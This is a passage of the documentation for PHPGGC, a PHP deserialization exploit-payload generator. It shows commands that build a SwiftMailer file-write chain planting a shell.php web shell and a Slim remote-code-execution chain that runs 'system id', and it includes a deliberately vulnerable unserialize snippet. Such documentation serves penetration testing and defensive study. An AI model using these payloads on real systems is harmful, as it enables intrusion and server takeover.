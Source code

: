 For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```


## Wrapper

The `--wrapper` (`-w`) option allows you to define a PHP file containing the following functions:

- `process_parameters(array $parameters)`: Called right **before** `generate()`, allows to change parameters
- `process_object(object $object)`: Called right **before** `serialize()`, allows to change the object
- `process_serialized(string $serialized)`: Called right **after** `serialize()`, allows to change the serialized string

For instance, if the vulnerable code looks like this:

```php
<?php
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a `__toString()` chain, wrapping it like so:

```php
<?php
# /tmp/my_wrapper.php
function process_object($object)
{
    return array(
        'message' => $object
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```


## PHAR(GGC)

### History

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).
